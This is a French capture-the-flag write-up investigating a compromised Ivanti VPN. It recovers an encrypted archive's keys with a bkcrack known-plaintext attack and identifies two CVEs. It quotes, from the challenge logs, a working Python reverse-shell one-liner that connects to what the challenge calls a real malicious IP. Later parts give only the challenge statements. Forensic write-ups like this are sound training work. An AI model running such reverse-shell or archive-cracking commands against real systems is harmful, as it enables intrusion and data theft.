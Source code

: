 # Horreur, malheur

## Enoncé 
Vous venez d'être embauché en tant que Responsable de la Sécurité des Systèmes d'Information (RSSI) d'une entreprise stratégique.

En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : `VPN compromis (intégrité). Version 22.3R1 b1647.`

Note : La première partie (Archive chiffrée) débloque les autres parties, à l'exception de la seconde partie (Accès initial) qui peut être traitée indépendamment. Nous vous recommandons de traiter les parties dans l'ordre.

## Partie 1/5
> Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous commencez par lister le contenu de l'archive, dont vous ne connaissez pas le mot de passe. Vous gardez en tête un article que vous avez lu : il paraît que les paquets installés sur l'équipement ne sont pas à jour...

> Le flag est le mot de passe de l'archive.

Pour commencer, listons le contenu de l'archive chiffrée avec `7z l archive.encrypted` :
```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-03-15 15:58:46 .....        64697        64714  tmp/temp-scanner-archive-20240315-065846.tgz
2022-12-05 17:06:09 .....          194          120  home/VERSION
2024-03-15 15:32:38 .....           33           44  data/flag.txt
------------------- ----- ------------ ------------  ------------------------
2024-03-15 15:58:46              64924        64878  3 files
```

Au vu de l'énoncé, la piste la plus probable semble être une forme de *known plaintext attack*. Par élimination, nous devons donc entrer en possession du fichier `home/VERSION`. Pour ce faire plusieurs solutions :
- Tenter d'obtenir une version d'évaluation du serveur VPN de Ivanti (watch me galérer à travers leur formulaire).
- Faire un google dork intelligent sur `"home/VERSION" ivanti` et tomber sur https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce.

Le site nous révèle le contenu du fichier en guise de POC de la RCE, parfait.
```bash
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
```

En ajoutant un `\n` à la fin du fichier, on obtient bien une taille de 33 bytes, comme le fichier original.

Il faut maintenant mettre en place l'attaque, à l'aide de l'outil [bkcrack](https://github.com/kimci86/bkcrack). En suivant les instructions, on obtient la commande suivante :
```bash
$ ./bkcrack -C ../archive.encrypted -c "home/VERSION" -P ../VERSION.zip -p "VERSION"
[...]
[19:29:46] Attack on 83134 Z values at index 6
Keys: 6ed5a98a a1bb2e0e c9172a2f
[...]
```

Il suffit maintenant de changer le mot de passe de l'archive : 
```bash
./bkcrack -C ../archive.encrypted -k 6ed5a98a a1bb2e0e c9172a2f -U unlocked.zip 123
```

Enfin, extraire l'archive avec le mot de passe `123` et afficher le flag.

## Partie 2/5
> Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous focalisez maintenant votre attention sur les journaux. L'équipement étant compromis, vous devez retrouver la vulnérabilité utilisée par l'attaquant ainsi que l'adresse IP de ce dernier.

> Le flag est au format : FCSC{CVE-XXXX-XXXXX:\<adresse_IP\>}.

Pour commencer, une simple recherche Google de la version donnée en énoncé nous apprend que le VPN étudié est celui d'Ivanti. Cette version spécifique est vulnérable à deux CVE : CVE-2023-46805 (Auth. Bypass) et CVE-2024-21887 (RCE) (cf. https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce). 

Concernant l'IP utilisée par l'attaquant, il suffit de fouiller un peu dans les logs fournis pour retrouver une commande de reverse-shell python dans le fichier `nodemonlog.old` :
```bash
python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```
On en extrait facilement l'IP `20.13.3.0`.

Il suffit donc de composer les deux possibilités de flag à partir de ces infos.

## Partie 3/5
> Vous avez réussi à déchiffrer l'archive. Il semblerait qu'il y ait dans cette archive une autre archive, qui contient le résultat du script de vérification d'intégrité de l'équipement.

> À l'aide de cette dernière archive et des journaux, vous cherchez maintenant les traces d'une persistance déposée et utilisée par l'attaquant.
## Partie 4/5
> Vous remarquez qu'une fonctionnalité built-in de votre équipement ne fonctionne plus et vous vous demandez si l'attaquant n'a pas utilisé la première persistance pour en installer une seconde, moins "visible"...

> Vous cherchez les caractéristiques de cette seconde persistance : protocole utilisé, port utilisé, chemin vers le fichier de configuration qui a été modifié, chemin vers le fichier qui a été modifié afin d'établir la persistance.

> Le flag est au format : FCSC{\<protocole\>:\<port\>:\<chemin_absolu\>:\<chemin_absolu\>}.
## Partie 5/5
> Vous avez presque fini votre analyse ! Il ne vous reste plus qu'à qualifier l'adresse IP présente dans la dernière commande utilisée par l'attaquant.

> Vous devez déterminer à quel groupe d'attaquant appartient cette adresse IP ainsi que l'interface de gestion légitime qui était exposée sur cette adresse IP au moment de l'attaque.

> Le flag est au format : FCSC{\<UNCXXXX\>:\<nom du service\>}.

> Remarque : Il s'agit d'une véritable adresse IP malveillante, n’interagissez pas directement avec cette adresse IP.
